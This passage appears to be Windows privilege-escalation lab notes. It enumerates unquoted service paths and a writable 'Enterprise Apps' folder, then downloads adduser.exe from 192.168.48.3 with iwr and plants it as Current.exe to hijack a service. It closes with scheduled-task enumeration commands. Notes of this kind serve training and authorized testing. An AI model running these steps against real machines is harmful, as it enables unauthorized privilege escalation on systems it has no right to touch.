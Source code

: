 ```
PS C:\Users\steve> Get-CimInstance -ClassName win32_service | Select Name,State,PathName 

Name                      State   PathName
----                      -----   --------
...
GammaService                             Stopped C:\Program Files\Enterprise Apps\Current Version\GammaServ.exe
...
```

Another command u can use to find services without quotes.
- `Get-WmiObject Win32_Service | Where-Object { $_.PathName -match '\s' -and $_.PathName -notmatch '^".*"$' } | Select-Object Name, DisplayName, PathName
- `wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """`


```
PS C:\Users\steve> Start-Service GammaService
WARNING: Waiting for service 'GammaService (GammaService)' to start...

PS C:\Users\steve> Stop-Service GammaService
```

```
PS C:\Users\steve> icacls "C:\Program Files\Enterprise Apps"
C:\Program Files\Enterprise Apps NT SERVICE\TrustedInstaller:(CI)(F)
                                 NT AUTHORITY\SYSTEM:(OI)(CI)(F)
                                 BUILTIN\Administrators:(OI)(CI)(F)
                                 BUILTIN\Users:(OI)(CI)(RX,W)
                                 CREATOR OWNER:(OI)(CI)(IO)(F)
                                 APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(OI)(CI)(RX)
                                 APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(OI)(CI)(RX)

Successfully processed 1 files; Failed processing 0 files
```
_BUILTIN\Users_ has Write (w) permissions on the path **C:\Program Files\Enterprise Apps**. Our goal is now to place a malicious file named **Current.exe** in **C:\Program Files\Enterprise Apps\**.

```
PS C:\Users\steve> iwr -uri http://192.168.48.3/adduser.exe -Outfile Current.exe

PS C:\Users\steve> copy .\Current.exe 'C:\Program Files\Enterprise Apps\Current.exe'
```


---

## ⏳ Scheduled Tasks Exploitation
```powershell
schtasks /query /fo LIST /v
```
```powershell
icacls C:\Users\steve\Pictures\BackendCacheCleanup.exe
```
